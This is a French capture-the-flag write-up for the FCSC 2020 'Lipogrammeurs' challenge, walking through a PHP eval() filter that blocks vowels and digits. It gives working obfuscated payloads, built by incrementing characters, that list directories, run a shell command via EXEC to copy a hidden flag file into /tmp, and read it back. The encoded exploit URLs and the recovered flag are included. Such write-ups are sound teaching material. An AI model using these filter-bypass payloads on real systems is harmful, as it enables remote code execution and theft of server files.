






# Lipogrammeurs

Oyé oyé à toi. Je vais présenter le challenge Lipogrammeurs du [FCSC 2020](https://www.france-cybersecurity-challenge.fr/)


## Kesako ?

Tout d'abord, regardons à quoi nous avons affaire



On voit ici du code [PHP](https://fr.wikipedia.org/wiki/PHP)

```php
<?php
    if (isset($_GET['code'])) {
        $code = substr($_GET['code'], 0, 250);
        if (preg_match('/a|e|i|o|u|y|[0-9]/i', $code)) {
            die('No way! Go away!');
        } else {
            try {
                eval($code);
            } catch (ParseError $e) {
                die('No way! Go away!');
            }
        }
    } else {
        show_source(__FILE__);
    }
```

On va analyser un peu ce qu'on voit.

En premier lieu, on remarque un paramètre GET `code`.

Ensuite on voit un [`substr`](https://www.php.net/manual/fr/function.substr.php) qui va prendre ce paramètre et retourner les 250 premiers caractères (depuis la position 0 sur une longueur de 250).

Après notre attention se porte sur le [`preg_match`](https://www.php.net/manual/fr/function.preg-match). Cette instruction nous dit que si la string dans dans la variable `$code` contient les caractères 'a' ou 'e' ou 'i' ou 'o' ou 'u' ou 'y' ou un caractère numérique (ou ouhouhouhouhouhou pardon), que ce soit majuscule ou minuscule, alors on assassine le script en balançant la string 'No way! Go away !'

On remarque aussi un try ... catch. À l'intérieur, on voit une fonction [`eval`](https://www.php.net/manual/fr/function.eval). Pour résumer, cette fonction interprète une chaîne de caractères comme du code PHP (cf la doc). Si le code injecté a une erreur de syntaxe, alors elle balancera une exception `ParseError` qui sera catchée. Dans le catch, on arrête le script et on affiche le même message que pour le `preg_match`.

Si on n'a pas de paramètre GET `code`, on affiche ce code source.

Du coup, en résumé, il faut injecter du code PHP sans voyelle insensible à la casse et ne contenant aucun caractère numérique.

Ça ne va pas nous faciliter la tâche tout ça !

Si on essaie d'injecter du code PHP classique, on tombe bien sur cette erreur



Du coup, comment peut-on procéder ?

On va essayer de truander un peu :)

## Simple. Basique.

En PHP, si on stocke une chaîne de caractères dans une variable et qu'on l'appelle comme une fonction, cela revient à appeler cette même fonction. Exemple

```php
<?php

/**
 * Cette fonction affiche "prout"
 */
function maFonction() {
  echo "Prout";
}

$str = "maFonction";

// Appelle la fonction "maFonction"
$str();

```

Ce code affiche un message très original.

/!\ WARNING (clic, clac, clic, clac, clic, clac) /!\

PHP interdit certaines fonctions critiques d'être appelées par une string :

- echo
- print
- unset
- isset
- empty
- include
- require

On va utiliser cette astuce pour truander le `preg_match` en "obfuscant" le code PHP

## C'est bon ? Tout le monde est prêt ? Attachez vos ceintures !


```php
<?php

$_=[]; // Array
$_=@"$_"; // $_ = 'Array'
$_=$_["!"=="@"]; // 'A'
$z=$_; // 'A'
++$_;++$_;++$_;
$r=++$_; // 'E'
++$_;++$_;++$_;
$t=++$_; // 'I'
++$_;++$_;++$_;++$_;++$_;
$p=++$_; // 'O'
$j = $p."RD"; // ORD
$d = $j("b");
++$_;++$_;++$_;++$_;++$_;
$n=++$_; // 'U'
$h = "SC{$z}ND{$t}R"; // 'SCANDIR'
$b ="V".$z."R_D".$n."MP"; // 'VAR_DUMP'
$b($h(".")); // VAR_DUMP(SCANDIR("."))

```

Ici, on crée une variable `$_` qui contient un tableau vide.

L'instruction d'après `$_=@"$_";` nous permet de récupérer le type de la variable `$_`, ici la chaîne de caractère 'Array'

Ensuite, l'instruction `$_=$_["!"=="@"]` nous permet de récupérer le premier caractère du contenu de la variable `$_` et d'écraser cette même variable par le résultat. Ici, le caractère 'A'.

À partir de là, nous copions ce caractère dans une variable `$z`.

Puis, en faisant `++$_`, on va passer au caractère suivant 'B', puis 'C', etc.

/!\ ATTENTION /!\ En PHP, l'incrémentation de caractère suit la même règle que Perl et pas celle de C. C'est à dire, qu'arrivé à 'Z', si on fait '++' sur la variable, nous allons passer à 'AA' et non pas au caractère suivant dans la table ASCII.

Nous allons donc stocker toutes les voyelles dont nous avons besoin.

Dans la variable `$j`, nous allons construire la fonction ['ORD'](https://www.php.net/manual/fr/function.ord.php).

/!\ AH OUI /!\ Les instructions PHP ne sont pas sensibles à la casse. C'est pour ça qu'on peut se permettre d'écrire du code en CAPSLOCK.

En résumé dans ce code :

- On récupère le caractère 'A' dans `$z`
- On récupère le caractère 'E' dans `$r`
- On récupère le caractère 'I' dans `$t`
- On récupère le caractère 'O' dans `$p`
- On construit la chaîne 'ORD' dans `$j`
- On récupère le code ASCII du caractère 'b' en utilisant la fonction `ORD` dans '$d'
- On récupère le caractère 'a' via [chr](https://www.php.net/manual/fr/function.chr.php) à partir du code ASCII de "b" qu'on décrémente (ça pourra nous servir plus tard, même si ça ne gêne pas dans l'immédiat)
- On récupère le caractère 'U' dans `$n`
- On construit la chaîne de caractères ['SCANDIR'](https://www.php.net/manual/fr/function.scandir.php) dans `$h`
- On construit la chaîne de caractères ['VAR_DUMP'](https://www.php.net/manual/fr/function.var-dump) dans `$b`
- On appelle le tout : `VAR_DUMP(SCANDIR("."))`

On va essayer de lister les fichiers présents dans le répertoire courant sur le serveur distant.

On va contrôler la taille de la chaîne générée et on va virer les commentaires et les sauts le lignes, puis on va encoder en code URL

```
php > echo strlen('$_=[];$_=@"$_";$_=$_["!"=="@"];$z=$_;++$_;++$_;++$_;$r=++$_;++$_;++$_;++$_;$t=++$_;++$_;++$_;++$_;++$_;++$_;$p=++$_;$j = $p."RD";$d = $j("b");++$_;++$_;++$_;++$_;++$_;$n=++$_;$h = "SC{$z}ND{$t}R";$b ="V".$z."R_D".$n."MP";$b($h(".")');
233

php > echo urlencode('$_=[];$_=@"$_";$_=$_["!"=="@"];$z=$_;++$_;++$_;++$_;$r=++$_;++$_;++$_;++$_;$t=++$_;++$_;++$_;++$_;++$_;++$_;$p=++$_;$j = $p."RD";$d = $j("b");++$_;++$_;++$_;++$_;++$_;$n=++$_;$h = "SC{$z}ND{$t}R";$b ="V".$z."R_D".$n."MP";$b($h("."));');
%24_%3D%5B%5D%3B%24_%3D%40%22%24_%22%3B%24_%3D%24_%5B%22%21%22%3D%3D%22%40%22%5D%3B%24z%3D%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%24r%3D%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%24t%3D%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%24p%3D%2B%2B%24_%3B%24j+%3D+%24p.%22RD%22%3B%24d+%3D+%24j%28%22b%22%29%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%24n%3D%2B%2B%24_%3B%24h+%3D+%22SC%7B%24z%7DND%7B%24t%7DR%22%3B%24b+%3D%22V%22.%24z.%22R_D%22.%24n.%22MP%22%3B%24b%28%24h%28%22.%22%29%29%3B
```

Si on balance ça dans

```
http://challenges2.france-cybersecurity-challenge.fr:5008/?code=%24_%3D%5B%5D%3B%24_%3D%40%22%24_%22%3B%24_%3D%24_%5B%22%21%22%3D%3D%22%40%22%5D%3B%24z%3D%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%24r%3D%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%24t%3D%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%24p%3D%2B%2B%24_%3B%24j+%3D+%24p.%22RD%22%3B%24d+%3D+%24j%28%22b%22%29%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%24n%3D%2B%2B%24_%3B%24h+%3D+%22SC%7B%24z%7DND%7B%24t%7DR%22%3B%24b+%3D%22V%22.%24z.%22R_D%22.%24n.%22MP%22%3B%24b%28%24h%28%22.%22%29%29%3B
```

On obtient



Donc dans ce répertoire, nous avons 2 fichiers ('.' et '..' sont des répertoires. '.' le répertoire courant, et '..' le répertoire parent).
- `.flag.inside.J44kYHYL3asgsU7R9zHWZXbRWK7JjF7E.php`
- `index.php`

On pourrait essayer d'afficher le contenu de `.flag.inside.J44kYHYL3asgsU7R9zHWZXbRWK7JjF7E.php` mais le nom du fichier est trop grand et contient des caractères numériques et des voyelles.

Un des seuls répertoires, si ce n'est le seul, à être accessible en écriture sous Unix est le dossier `/tmp`.

On va donc essayer de copier le contenu dans un nouveau fichier, dans le répertoire `/tmp`

On va donc écrire le [payload](https://fr.wikipedia.org/wiki/Charge_utile) suivant

```php
<?php

$_=[]; // Array
$_=@"$_"; // $_ = 'Array'
$_=$_["!"=="@"]; // 'A'
$z=$_; // 'A'
++$_;++$_;++$_;
$r=++$_; // 'E'
++$_;++$_;++$_;
$t=++$_; // 'I'
++$_;++$_;++$_;++$_;++$_;
$p=++$_; //'O'
$j = $p."RD"; // 'ORD'
$d = $j("b");
++$_;++$_;++$_;++$_;++$_;
$p = chr(--$d); // 'a'
$n=++$_; // 'U'
$h = "{$r}X{$r}C"; // 'EXEC'
$v = "c{$p}t ./.* > /tmp/prt"; // 'cat ./.* > /tmp/prt'
$h($v); // EXEC("cat ./.* > /tmp/prt")
```

La seule différence par rapport au code d'avant est les 3 dernières instructions.
On a donc la même chose sauf
- `$h` contient [`EXEC`](https://www.php.net/manual/fr/function.exec)
- `$v` contient `cat ./.* > /tmp/prt`

Et enfin
- `$h($v)` fait `EXEC("cat ./.* > /tmp/prt")`


Idem qu'au-dessus, on va vérifier sa taille et l'encoder en caractères URL

```
php > echo strlen('$_=[];$_=@"$_";$_=$_["!"=="@"];$z=$_;++$_;++$_;++$_;$r=++$_;++$_;++$_;++$_;$t=++$_;++$_;++$_;++$_;++$_;++$_;$p=++$_;$j = $p."RD";$d = $j("b");++$_;++$_;++$_;++$_;++$_;$p =
 chr(--$d);$n=++$_;$h = "{$r}X{$r}C";$v = "c{$p}t ./.* > /tmp/prt";$h($v);');
246

php > echo urlencode('$_=[];$_=@"$_";$_=$_["!"=="@"];$z=$_;++$_;++$_;++$_;$r=++$_;++$_;++$_;++$_;$t=++$_;++$_;++$_;++$_;++$_;++$_;$p=++$_;$j = $p."RD";$d = $j("b");++$_;++$_;++$_;++$_;++$_;$p = chr(--$d);$n=++$_;$h = "{$r}X{$r}C";$v = "c{$p}t ./.* > /tmp/prt";$h($v);');
%24_%3D%5B%5D%3B%24_%3D%40%22%24_%22%3B%24_%3D%24_%5B%22%21%22%3D%3D%22%40%22%5D%3B%24z%3D%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%24r%3D%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%24t%3D%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%24p%3D%2B%2B%24_%3B%24j+%3D+%24p.%22RD%22%3B%24d+%3D+%24j%28%22b%22%29%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%24p+%3D+chr%28--%24d%29%3B%24n%3D%2B%2B%24_%3B%24h+%3D+%22%7B%24r%7DX%7B%24r%7DC%22%3B%24v+%3D+%22c%7B%24p%7Dt+.%2F.%2A+%3E+%2Ftmp%2Fprt%22%3B%24h%28%24v%29%3B
```

On appelle l'URL

```
http://challenges2.france-cybersecurity-challenge.fr:5008/?code=%24_%3D%5B%5D%3B%24_%3D%40%22%24_%22%3B%24_%3D%24_%5B%22%21%22%3D%3D%22%40%22%5D%3B%24z%3D%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%24r%3D%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%24t%3D%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%24p%3D%2B%2B%24_%3B%24j+%3D+%24p.%22RD%22%3B%24d+%3D+%24j%28%22b%22%29%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%24p+%3D+chr%28--%24d%29%3B%24n%3D%2B%2B%24_%3B%24h+%3D+%22%7B%24r%7DX%7B%24r%7DC%22%3B%24v+%3D+%22c%7B%24p%7Dt+.%2F.%2A+%3E+%2Ftmp%2Fprt%22%3B%24h%28%24v%29%3B
```

On l'execute et on obtient



On sait qu'on a rien pété. On a pas la phrase "No way! Go away!" qui nous indique que notre code est valide et est passé au travers des restrictions.

On va vérifier le dossier `/tmp`

```php
<?php

$_=[]; // Array
$_=@"$_"; // 'Array'
$_=$_["!"=="@"]; // 'A'
$z=$_; // 'A'
++$_;++$_;++$_;
$r=++$_; // 'E'
++$_;++$_;++$_;
$t=++$_; // 'I'
++$_;++$_;++$_;++$_;++$_;
$p=++$_; // 'O'
$j = $p."RD"; // 'ORD'
$d = $j("b");
++$_;++$_;++$_;++$_;++$_;
$n=++$_; // 'U'
$h = "SC{$z}ND{$t}R"; // 'SCANDIR'
$b ="V".$z."R_D".$n."MP"; // 'VAR_DUMP'
$b($h("/tmp")); // VAR_DUMP(SCANDIR("/tmp"))
```

On fait un `VAR_DUMP(SCANDIR("/tmp"))`

On vérifie la taille et on encode

```
php > echo strlen('$_=[];$_=@"$_";$_=$_["!"=="@"];$z=$_;++$_;++$_;++$_;$r=++$_;++$_;++$_;++$_;$t=++$_;++$_;++$_;++$_;++$_;++$_;$p=++$_;$j = $p."RD";$d = $j("b");++$_;++$_;++$_;++$_;++$_;$n=++$_;$h = "SC{$z}ND{$t}R";$b ="V".$z."R_D".$n."MP";$b($h("/tmp"));');
236

php > echo urlencode('$_=[];$_=@"$_";$_=$_["!"=="@"];$z=$_;++$_;++$_;++$_;$r=++$_;++$_;++$_;++$_;$t=++$_;++$_;++$_;++$_;++$_;++$_;$p=++$_;$j = $p."RD";$d = $j("b");++$_;++$_;++$_;++$_;++$_;$n=++$_;$h = "SC{$z}ND{$t}R";$b ="V".$z."R_D".$n."MP";$b($h("/tmp"));');
%24_%3D%5B%5D%3B%24_%3D%40%22%24_%22%3B%24_%3D%24_%5B%22%21%22%3D%3D%22%40%22%5D%3B%24z%3D%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%24r%3D%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%24t%3D%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%24p%3D%2B%2B%24_%3B%24j+%3D+%24p.%22RD%22%3B%24d+%3D+%24j%28%22b%22%29%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%24n%3D%2B%2B%24_%3B%24h+%3D+%22SC%7B%24z%7DND%7B%24t%7DR%22%3B%24b+%3D%22V%22.%24z.%22R_D%22.%24n.%22MP%22%3B%24b%28%24h%28%22%2Ftmp%22%29%29%3B
```

On exécute ce paylod sur

```
http://challenges2.france-cybersecurity-challenge.fr:5008/?code=%24_%3D%5B%5D%3B%24_%3D%40%22%24_%22%3B%24_%3D%24_%5B%22%21%22%3D%3D%22%40%22%5D%3B%24z%3D%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%24r%3D%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%24t%3D%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%24p%3D%2B%2B%24_%3B%24j+%3D+%24p.%22RD%22%3B%24d+%3D+%24j%28%22b%22%29%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%24n%3D%2B%2B%24_%3B%24h+%3D+%22SC%7B%24z%7DND%7B%24t%7DR%22%3B%24b+%3D%22V%22.%24z.%22R_D%22.%24n.%22MP%22%3B%24b%28%24h%28%22%2Ftmp%22%29%29%3B
```

Et on a



On a bien notre fichier `prt` présent dans `/tmp`

Enfin, on va essayer de récupérer le contenu de ce fichier grâce à la fonction PHP [`file`](https://www.php.net/manual/fr/function.file.php)

```php
<?php

$_=[]; // Array
$_=@"$_"; // 'Array'
$_=$_["!"=="@"]; //'A'
$z=$_; // 'A'
++$_;++$_;++$_;
$r=++$_; // 'E'
++$_;++$_;++$_;
$t=++$_; // 'I'
++$_;++$_;++$_;++$_;++$_;
$p=++$_; // 'O'
$j = $p."RD"; // 'ORD'
$d = $j("b");
++$_;++$_;++$_;++$_;++$_;
$n=++$_; // 'U'
$h = "F{$t}L{$r}"; // 'FILE'
$b ="V".$z."R_D".$n."MP"; //'VAR_DUMP'
$b($h("/tmp/prt")); // VAR_DUMP(FILE("/tmp/prt"))
```

- `$h` contient `FILE`
- `$b` contient `VAR_DUMP`

On exécute `$b($h("/tmp/prt"))` qui fait un `VAR_DUMP(FILE("/tmp/prt"))`

On vérifie la taille et on encode aussi

```
php > echo strlen('$_=[];$_=@"$_";$_=$_["!"=="@"];$z=$_;++$_;++$_;++$_;$r=++$_;++$_;++$_;++$_;$t=++$_;++$_;++$_;++$_;++$_;++$_;$p=++$_;$j = $p."RD";$d = $j("b");++$_;++$_;++$_;++$_;++$_;$n=++$_;$h = "F{$t}L{$r}";$b ="V".$z."R_D".$n."MP";$b($h("/tmp/prt")');
235

php > echo urlencode('$_=[];$_=@"$_";$_=$_["!"=="@"];$z=$_;++$_;++$_;++$_;$r=++$_;++$_;++$_;++$_;$t=++$_;++$_;++$_;++$_;++$_;++$_;$p=++$_;$j = $p."RD";$d = $j("b");++$_;++$_;++$_;++$_;++$_;$n=++$_;$h = "F{$t}L{$r}";$b ="V".$z."R_D".$n."MP";$b($h("/tmp/prt"));');
%24_%3D%5B%5D%3B%24_%3D%40%22%24_%22%3B%24_%3D%24_%5B%22%21%22%3D%3D%22%40%22%5D%3B%24z%3D%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%24r%3D%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%24t%3D%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%24p%3D%2B%2B%24_%3B%24j+%3D+%24p.%22RD%22%3B%24d+%3D+%24j%28%22b%22%29%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%24n%3D%2B%2B%24_%3B%24h+%3D+%22F%7B%24t%7DL%7B%24r%7D%22%3B%24b+%3D%22V%22.%24z.%22R_D%22.%24n.%22MP%22%3B%24b%28%24h%28%22%2Ftmp%2Fprt%22%29%29%3B
```

On va sur

```
http://challenges2.france-cybersecurity-challenge.fr:5008/?code=%24_%3D%5B%5D%3B%24_%3D%40%22%24_%22%3B%24_%3D%24_%5B%22%21%22%3D%3D%22%40%22%5D%3B%24z%3D%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%24r%3D%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%24t%3D%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%24p%3D%2B%2B%24_%3B%24j+%3D+%24p.%22RD%22%3B%24d+%3D+%24j%28%22b%22%29%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%24n%3D%2B%2B%24_%3B%24h+%3D+%22F%7B%24t%7DL%7B%24r%7D%22%3B%24b+%3D%22V%22.%24z.%22R_D%22.%24n.%22MP%22%3B%24b%28%24h%28%22%2Ftmp%2Fprt%22%29%29%3B
```

Et on a



ET BIM ! BAM ! BOUM ! TROLOLO !

```
FCSC{53d195522a15aa0ce67954dc1de7c5063174a721ee5aa924a4b9b15ba1ab6948}
```


# Références

[1] https://www.php.net/manual/en/functions.variable-functions.php
